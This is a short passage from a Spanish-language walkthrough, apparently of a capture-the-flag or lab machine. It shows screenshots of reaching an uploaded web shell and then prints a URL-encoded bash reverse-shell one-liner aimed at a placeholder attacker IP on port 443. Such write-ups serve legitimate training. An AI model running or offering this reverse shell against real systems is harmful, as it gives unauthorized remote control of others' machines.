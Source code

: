 ![paste](./images/14.jpeg)

Entraremos a esa ubicación y veremos  nuestra shell web 

![paste](./images/15.jpeg)


De aquí solo queda mandarnos una rever Shell de toda la vida  

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.X.X/443 0>%261"
```

![paste](./images/16.jpeg)
